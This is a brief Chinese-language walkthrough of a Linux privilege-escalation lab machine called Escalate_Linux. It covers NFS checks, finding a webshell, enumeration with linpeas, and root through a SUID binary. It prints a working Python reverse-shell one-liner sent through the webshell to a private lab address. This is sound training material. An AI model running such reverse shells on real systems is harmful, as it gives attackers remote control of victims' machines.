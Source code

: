 # Escalate_Linux



![image-20200613234426607](assets/Escalate_Linux.assets/image-20200613234426607.png)

先测试nfs

![image-20200613234734752](assets/Escalate_Linux.assets/image-20200613234734752.png)

尝试利用ssh。但是权限不足。

![image-20200614041443338](assets/Escalate_Linux.assets/image-20200614041443338.png)

新建用户user5 ，uid 1004

![image-20200614041718459](assets/Escalate_Linux.assets/image-20200614041718459.png)

查看了一下，没什么有用的信息，但是user5有个拥有suid的程序`script`



往下进行80端口扫目录

扫到一个shell.php

![image-20200614065812149](assets/Escalate_Linux.assets/image-20200614065812149.png)

![image-20200614065839626](assets/Escalate_Linux.assets/image-20200614065839626.png)

看样子是个webshell

直接nc不好用，看看python

![image-20200614065938190](assets/Escalate_Linux.assets/image-20200614065938190.png)

```bash
192.168.1.117/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.108",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image-20200614070056746](assets/Escalate_Linux.assets/image-20200614070056746.png)

上传linpeas进行枚举

![image-20200614073421926](assets/Escalate_Linux.assets/image-20200614073421926.png)



![image-20200614081718345](assets/Escalate_Linux.assets/image-20200614081718345.png)

可以进mysql，发现所有u用户的凭证，也有很多其他提权方式，都是基础简单的，不再累诉，

SUID之一，home/user/shell

直接提权

![image-20200614082440754](assets/Escalate_Linux.assets/image-20200614082440754.png)